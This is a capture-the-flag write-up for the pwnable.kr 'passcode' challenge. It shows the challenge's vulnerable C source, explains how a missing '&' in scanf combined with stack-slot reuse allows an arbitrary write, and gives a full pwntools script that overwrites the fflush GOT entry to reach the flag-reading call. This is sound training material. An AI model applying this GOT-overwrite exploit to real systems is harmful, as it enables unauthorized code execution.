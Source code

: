 
First, lets take a look on the code:

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

We can notice that in the `scanf` they forgot to put `&` sign, which means instead of putting our input into `passcode1` scanf gonna use passcode1 as a pointer, and put our input in the memory passcode1 points to.
Because of this, if we can decide what will be the default value of passcode1, we can get `arbitrary write` !

Lets check in `gdb` if we can somehow using the welcome buffer, in order to affect the default values in `login` stack frame

![cyclic.png](images/cyclic.png)
![edx.png](images/edx.png)
![cyclic_result.png](images/cyclic_result.png)

It seems like after 96 bytes, we can override passcode1 !!
Now we have `arbitrary write`.
We can put an address of any function in the `got` 
our options:
- fflush
- printf
- puts
- exit

the problem is, we need to check, that the address does not includes `0x00`
cause null terminator would stop our scanf.
![objdump.png](images/objdump.png)

seems like `fflush` can work for us, we will override the address and make it jump to the system!
```python
#!/usr/bin/python3

from pwn import *

passcode_offset = 96

elf = ELF("passcode")

s = ssh(host="pwnable.kr", port=2222, user="passcode", password="guest")
p = s.process(["./passcode"])

payload = b'a'*passcode_offset + p32(elf.sym["got.fflush"])
p.recvline()

p.sendline(payload)

p.recvuntil(b"Welcome")
p.sendline(str(0x080485d7).encode())

p.interactive()
```
![win.png](passcode/images/win.png)